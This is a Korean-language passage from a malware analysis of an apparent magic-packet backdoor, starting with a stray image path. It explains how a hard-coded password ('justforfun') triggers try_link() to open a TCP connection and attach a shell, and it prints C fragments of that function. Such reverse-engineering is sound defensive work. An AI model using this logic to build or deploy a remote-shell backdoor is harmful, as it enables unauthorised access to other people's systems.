         - `try_link()` 함수를 호출하여 앞에서 정하였던 공격 대상 ip 주소(`bip`)와 `magic_packet`에 지정되어 있는 포트(공격 대상 포트, `mp→port`)를 인자로 전달한다.
        - 해당 함수로부터 반환 받은 소켓 파일 디스크립터를 `int scli` 변수에 저장하고, 정상적으로 소켓이 생성되었다면 `shell` 함수를 통해 통신을 시도한다. 이때, 두 개의 인자 모두 `NULL`로 전달한다.

    3. `case 2:` - 비밀번호 불일치
        - 프로세스가 정상적으로 동작 중인지를 모니터링하기 위한 목적이다.

        ```c
        mon(bip, mp->port);
        break;
        ```

        - `mon` 함수에 대한 인자로 공격 대상 ip 주소(`bip`)와 `magic_packet`에 지정되어 있는 포트(공격 대상 포트, `mp→port`)를 전달하여 호출한다.


### **주요 함수 분석) try_link**

- 해당 함수는 pass 값이 `justforfun`인 경우에 TCP socket 연결을 수행하고, 이를 `shell` 함수에 전달하여 Bind Shell**을 제공하는 것을 목적**으로 한다.

1. **함수 인자 설정**

    ```c
    int try_link(in_addr_t ip, unsigned short port)
    ```

    - 호출 시에 `ip` 값으로는 공격 대상 ip 주소, `port` 값으로는 공격 대상 port 값을 인자로 전달한다.

1. **변수 선언 및 초기화**

    ```c
    struct sockaddr_in serv_addr;
    int sock;

    bzero(&serv_addr, sizeof(serv_addr));
    ```

    - `sockaddr_in` 구조체는 다루는 socket의 주소 패밀리가 `AF_INET`, 즉 IPv4 주소를 사용하여 통신할 때 사용하는 구조체이다.
    - 해당 구조체로 선언된 `serv_addr` 변수는 인자로 받은 공격 대상 ip 주소와 포트 번호를 저장하는 데에 사용된다.

        ```c
        struct sockaddr_in {
        	short    sin_family;          // 주소 체계: AF_INET
        	u_short  sin_port;            // 16 비트 포트 번호, network byte order
        	struct   in_addr  sin_addr;   // 32 비트 IP 주소
        	char     sin_zero[8];         // 전체 크기를 16 비트로 맞추기 위한 dummy
        };

        struct  in_addr {
        	u_long  s_addr;     // 32비트 IP 주소를 저장 할 구조체, network byte order
        };
        ```

2. **TCP socket 생성**

    ```c
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return -1;
    }
    ```
